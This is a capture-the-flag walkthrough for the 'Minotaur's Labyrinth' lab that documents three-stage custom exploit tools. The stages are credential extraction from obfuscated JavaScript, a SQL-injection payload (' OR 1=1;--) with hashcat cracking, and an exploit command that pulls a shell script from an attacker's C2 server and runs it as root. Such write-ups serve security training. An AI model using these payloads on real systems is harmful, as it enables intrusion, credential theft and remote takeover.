 # Minotaur's Labyrinth: Walkthrough

## Custom Exploit Tools

### Stage 1: Password Grabber

To access the restricted area of the website, the user must pass a credential check. After manually enumerating the website and following referenced custom scripts, it is obvious that the `login.js` script referenced in the `login.html` source contains obfuscated credentials of a user `Daedalus`. The credentials are hidden in the comments of the script and are disguised as a string built by array indicies. 

```javascript
function pwdgen() {
    a = ["0", "h", "?", "1", "v", "4", "r", "l", "0", "g"]
    b = ["m", "w", "7", "j", "1", "e", "8", "l", "r", "a", "2"]
    c = ["c", "k", "h", "p", "q", "9", "w", "v", "5", "p", "4"]
}
//pwd gen for Daedalus a[9]+b[10]+b[5]+c[8]+c[8]+c[1]+a[1]+a[5]+c[0]+c[1]+c[8]+b[8]
// 
```

The [golang program](extract_password.go) in this repository:

> 1. reaches out to the target and pulls down the `login.js` file
> 2. searches for the password arrays (`a`, `b`, `c`)
> 3. searches for Daedalus' password array in the comments
> 4. uses the reference arrays to build Daedalus' password
> 5. displays the extracted credentials to the user

The attacker can then use these credentials to either login to the site and proceed with the attack, or pass the credentials into another tool to automate the takeover of the target.

### Stage 2: SQLi Injector

To leverage the credentials obtained in the [first attack](#Password Grabber) a tool was written in Python3. This tool extracts users and password hashes from the database using a SQLi vulnerability present in the dashboard of an authenticated user. 

After the user authenticates, they are brought to a dashboard where they can search for people and creatures. This search form reaches out and contacts `api/<creatures/people>/search` and has a SQL injection (SQLi) vulnerability present. If an attacker inputs the search string `' OR 1=1;--` they will get a dump of all the creatures or people in the database. This also displays the creatures' and people's password hashes.

After this script is run the attacker must manually crack the hashes using a tool like hashcat, john, or [crackstation](https://crackstation.net).

Hashcat Command:

```bash
hashcat -m 0 -a 0 <hash_file> <wordlist>
```

*The password can be found in the rockyou wordlist.*

Command To Execute Stage 2:

```bash
./exploit.py $TARGET daedalus <password> stage2 -a
```

### Stage 3: Foothold

After the attacker authentictes and pulls down the user hashes, they will find that M!n0taur has an easily crackable password hash. This leaks M!n0taur's credentials and allows the attacker to login as M!n0taur (an admin). Once logged in as admin, there is both a web flag and a new page accessible. This new page allows the attacker to run the `echo` command on the target machine and opens up the target to RCE.

Command To Execute Stage 3:

```bash
./exploit.py $TARGET M\!n0taur <password> stage3 -c <C2IP>:<C2PORT> -b
```

If desired, the user can also specify `-s` to specify the name of the script the exploit will pull down from the C2 server. The default script name is `rooter.sh`.

*Note The `-b` option builds a pre-witten script that will pull down a file called `mshell` from the attacker's C2 server and uses the privilege escalation vector to have it run as root.*